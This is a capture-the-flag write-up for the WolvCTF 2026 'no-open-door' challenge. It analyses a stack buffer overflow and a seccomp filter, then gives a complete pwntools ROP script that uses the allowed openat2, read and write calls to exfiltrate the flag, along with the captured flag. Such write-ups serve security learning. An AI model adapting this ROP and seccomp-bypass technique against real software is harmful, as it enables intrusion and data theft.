


## Overview
```
Arch:       amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

---
## Vulnerability
The vulnerability present in this challenge was a Buffer Overflow. It creates a buffer with the size of 64 bytes but reads in 512 bytes, therefore overflowing it.



Just like some of the other WolvCTF challenges, it implements the same wrapper that require the entire buffer be filled.



The `install_filter()` function is just code setting up the seccomp filter. Claiming "no exec, no open".

---
## Exploit Development
Examining the seccomp filter further, we can see all of the allowed system calls below. Any syscall other than the allowed ones, or a mismatched architecture, kills the process. This overflow is not affected by the stack canary because it is not placed between our input and the instruction pointer.

```bash
bird ➜ ~/.../WOLVCTF_2026/noopendoor $ seccomp-tools dump ./no-open-door 
sandbox rental unit. no exec, no open.
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x000001b5  if (A != openat2) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000009  if (A != mmap) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x0000000c  if (A != brk) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0018
 0017: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0018: 0x15 0x00 0x01 0x00000003  if (A != close) goto 0020
 0019: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0020: 0x15 0x00 0x01 0x00000008  if (A != lseek) goto 0022
 0021: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0022: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
```

A couple functions pop out here, `openat2`, `rt_sigreturn`, `mmap`, and `read`. First, `openat2` because it could open the flag and return a handle which could be further used with `read` to print the contents. Next, `rt_sigreturn` because that can be a primitive to perform SROP. Then `mmap`, which can be used to map executable pages to execute shellcode. 

I decided to go with `openat2` because the seccomp filter allows all of the other functions needed that would make `openat2` usage work. We can open the flag file, read it, then write the contents. Simple and straightforward. `mmap` and shellcode wouldn't be worth it because seccomp is a kernel level boundary, you wouldn't be able to simply call `system` because its shellcode, the filter still applies. SROP isn't feasible either because it would require you to pivot the stack into the context of a signal handler. 

Since NX is enabled, all of these function calls will have to be performed with ROP. Here is a pseudo output, since pasting all of the outputs from getting the gadgets would be too much:

```bash
bird ➜ ~/.../WOLVCTF_2026/noopendoor $ ROPgadget --binary ./no-open-door
0x40212f : pop rdi ; ret
0x40a13e : pop rsi ; ret
0x401766 : pop rdx ; ret
0x401765 : pop r10 ; ret
0x448167 : pop rax ; ret
0x414b36 : syscall ; ret
```

Another important thing to note is the necessity of a scratchpad space in memory. Because the payload won't be hardcoding values, and will build pointers and other dynamic values that need to be saved somewhere for later reference. The `.bss` section is a great fit because it is readable and writable, we can run `readelf` to get the address.
```bash
bird ➜ ~/.../WOLVCTF_2026/noopendoor $ readelf -SW ./no-open-door
There are 32 section headers, starting at offset 0xdb630:

Section Headers:
  [Nr] Name              Type            Address          Off    Size   ES Flg Lk Inf Al
  [ ... SNIP ... ]
  [24] __libc_atexit     PROGBITS        00000000004c7288 0c6288 000008 00 WAR  0   0  8
  [25] .bss              NOBITS          00000000004c72a0 0c6290 005980 00  WA  0   0 32
  [26] __libc_freeres_ptrs NOBITS          00000000004ccc20 0c6290 000020 00  WA  0   0  8
  [ ... SNIP ... ]
```

---
## Final Pwn

```python
from pwn import *

binary = "./no-open-door"
elf = context.binary = ELF(binary, checksec=False)
context.arch = "amd64"

gdbscript = """
b *0x401a78
c
"""

def start():
    if args.GDB:
        return gdb.debug(binary, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote("no-open-door.wolvctf-2026.kctf.cloud", 1337)
    return process([binary])

pop_rdi = 0x40212f
pop_rsi = 0x40a13e
pop_rdx = 0x401766
pop_r10 = 0x401765
pop_rax = 0x448167
syscall = 0x414b36

bss   = 0x4c72a0
path  = bss + 0x400   # where we stage /flag
how   = path + 0x10   # struct open_how (24 bytes) staged by us, zero-filled
buf   = bss + 0x600   # read flag here

sys_read    = 0
sys_write   = 1
sys_openat2 = 437
at_fdcwd    = -100 & 0xffffffffffffffff # openat2 to resolve the pathname relative to the current working directory

def do_syscall(nr, a=0, b=0, c=0, d=0):
    r  = p64(pop_rax) + p64(nr)
    r += p64(pop_rdi) + p64(a)
    r += p64(pop_rsi) + p64(b)
    r += p64(pop_rdx) + p64(c)
    r += p64(pop_r10) + p64(d)
    r += p64(syscall)
    return r

chain  = b""
chain += do_syscall(sys_read, 0, path, 0x40)
chain += do_syscall(sys_openat2, at_fdcwd, path, how, 24)
chain += do_syscall(sys_read, 3, buf, 0x100)
chain += do_syscall(sys_write, 1, buf, 0x100)

payload = b"A" * 72 + chain
assert len(payload) <= 0x200, len(payload)
payload = payload.ljust(0x200, b"A")   # read_full needs exactly 0x200 bytes

io = start()
io.recvuntil(b"no open.")
io.send(payload)

io.send(b"/flag\x00".ljust(0x10, b"\x00") + p64(0) * 3)
print(io.recvall(timeout=3).decode(errors="replace"))
```
```
wctf{y0u_f0rg0t_t0_cl0se_0penat2}
```